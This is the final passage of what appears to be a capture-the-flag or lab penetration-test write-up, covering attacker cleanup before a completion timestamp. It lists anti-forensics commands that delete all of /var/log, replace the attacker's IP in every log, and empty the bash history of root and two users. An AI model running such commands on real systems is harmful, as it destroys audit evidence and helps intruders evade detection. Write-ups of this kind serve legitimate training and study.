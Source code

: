 > `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {}\;`

### Wipe bash history for any accounts we used via

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`

## Summary

Completed: [`2022-01-20 20:08:10`]